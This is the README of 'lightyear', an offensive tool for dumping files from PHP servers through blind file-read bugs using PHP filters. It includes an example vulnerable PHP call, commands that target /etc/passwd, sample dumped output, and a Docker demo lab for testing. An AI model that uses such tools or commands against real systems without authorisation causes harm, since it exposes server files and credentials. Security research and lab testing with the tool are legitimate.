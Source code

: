 # lightyear

A tool to dump files in tedious (blind) conditions using PHP filters, by [cfreal](https://twitter.com/cfreal_). It can be used to dump any file using a blind file read primitive in PHP, such as:

```php
get_image_size($_GET['image']);
```

# Usage

## Setup

```bash
$ git clone https://github.com/ambionics/lightyear
$ cd lightyear
$ pip install -r requirements.txt
```

## Running

```bash
$ code remote.py # edit Remote.oracle
$ ./lightyear.py test # test that your implementation works
$ ./lightyear.py /etc/passwd # dump a file!
```

To use, implement the `Remote.oracle()` method, and then test that it works properly by running `./lightyear.py test`.

## Resuming

If you interrupt and then restart a dump with the same destination file, the dump will resume.

```bash
$ ./lightyear.py /etc/passwd -o /tmp/passwd.txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:58
[-] Execution interrupted (Ctrl-C) <----- PRESSED CTRL-C
[+] Dumped /etc/passwd to /tmp/z (got 198 bytes)
$ ./lightyear.py /etc/passwd -o /tmp/passwd.txt
[!] File exists, resuming dump at digit #265
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
>=
[+] Dumped /etc/passwd to /tmp/passwd.txt (got 840 bytes)
```


# Testing

A docker file is available in `demo/`. It provides a very simple Apache+PHP environment allowing you to test the tool.

```
$ docker build -t lightyear-demo ./demo
$ docker run -d --name lightyear-demo --rm -p 8000:80 lightyear-demo
$ ./lightyear.py /etc/passwd
```

# Improvements

- Concurrency
- Improve jump caching to truly reach minimum size and compute faster
- Combine with [wrapwrap](https://github.com/ambionics/wrapwrap)

# References

- [Blogpost describing the tool](https://www.ambionics.io/blog/lightyear-file-dump)